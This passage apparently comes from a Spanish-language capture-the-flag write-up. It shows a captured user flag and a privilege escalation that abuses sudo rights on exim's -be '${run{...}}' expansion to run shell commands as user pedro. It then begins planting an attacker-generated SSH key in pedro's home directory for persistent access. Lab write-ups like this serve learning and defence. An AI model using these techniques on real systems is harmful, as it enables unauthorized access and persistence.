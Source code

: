 ```bash
cat user.txt
d784fa8b6d98d27699781bd9a7cf19f0
```

este usuario puede ejecutar el binario `exim` como el usuario `pedro`

![image](https://github.com/user-attachments/assets/ffdf87f1-ffb8-408d-bb17-b094c653bf71)

el problema fue que no encontraba como abusar de este binario para escalar hasta que decidi buscar informacion en su propia documentacion

![image](https://github.com/user-attachments/assets/c36eab47-a80c-4a70-8ca3-e10dac531060)

consiguiendo la forma de ejecutar comandos

```bash
sudo -u pedro /usr/sbin/exim -be '${run{/bin/bash -c "whoami;id"}}'
```

![image](https://github.com/user-attachments/assets/fc83b025-d80f-4ae1-b738-cbf6a07d9599)

pero desde aqui no puedo obtener una bash directamente como `pedro` asi que voy intentar ganar acceso via `ssh` implantando en `/home/pedro/.ssh` 
par de claves que voy a generar, asi que desde mi maquina atacante genero las claves `ssh`

```
ssh-keygen -t rsa -b 4096
```
```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/darks/.ssh/id_rsa): 
/home/darks/.ssh/id_rsa already exists.
Overwrite (y/n)? y
Enter passphrase for "/home/darks/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/darks/.ssh/id_rsa
Your public key has been saved in /home/darks/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:qHvT6jODrldXJVOd5CnbodHQakdcTFijwrGHZJE/kdw darks@Darks
The key's randomart image is:
+---[RSA 4096]----+
|           **=+O+|
|          *.=BOEo|
|           O+=*  |
|       .  . =O.. |
|      . S. .o.o  |
|     .. .        |
|    .o o         |
|    o.* .        |
|  .+ooo*         |
+----[SHA256]-----+
```

con el siguiente comando vamos a copias las llaves creadas a nuestro directorio actual, luego hacemos una copia de `id_rsa.pub` con el nombre `authorized_keys`
con esto vamos a tener 3 archivos finales: id_rsa.pub, authorized_keys & id_rsa

